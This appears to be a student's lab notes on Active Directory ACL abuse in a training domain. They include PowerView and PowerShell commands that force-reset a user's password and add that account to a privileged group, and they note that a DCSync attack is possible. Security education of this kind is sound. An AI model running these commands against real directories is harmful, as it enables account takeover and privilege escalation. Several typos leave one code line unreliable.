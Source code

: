- The output above shows that our `adunn` user has `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-In-Filtered-Set` rights over the domain object. This means that this user can be leveraged to perform a DCSync attack. 


------
# ACL ABUSE TATICS
-----

## Abusing ACLs
- We know `wley` has control over `adunn`. We can now perform attacks to take over the user.
	1. Use the `wley` user to change the password for the `damundsen` user
	2. Authenticate as the `damundsen` user and leverage `GenericAll` rights to add a user that we control to the `Help Desk Level 1` group
	3. Take advantage of nested group membership in the `Information Technology` group and leverage `GenericAll` rights to take control of the `adunn` user

- Create a [PSCredential Object](https://learn.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential?view=powershellsdk-7.0.0)
```PowerShell
# Authenticate as wley if we have not logged in as the user
$SecPassword = ConvertTo-SecureString $PASSWORD -AsPlainText -Force
$Cred = New-Object System.Managemnet.Automation.PSCredential('INALNEFREIGHT\wley', $SecPassword)
```

- Create a [SecureString object](https://learn.microsoft.com/en-us/dotnet/api/system.security.securestring?view=net-6.0), which represents teh password we want to set for user `damundsen`
```PowerShell
$damundsenPassword = ConvertTo-SecureString $PASSWORD -AsPlainText -Force
```

- Use Set-DOmainUserPassword from PowerView to change the user's password.
```PowerSHell
Import-Module ./PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

- Similarly, log in as `damundsen` to add ourselves to the `Help Desk Level 1 Group`
```PowerShell
# Login as damundsen
$SecPassword = ConvertTo-SecureString $PASSWORD -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PsCredential('INLANEFREIGHT\damundsen', $SecPassword)

# Add `damundsen to the Help Desk Level 1`
## Check the members of the group
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
## Add the user to the group
Add-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```
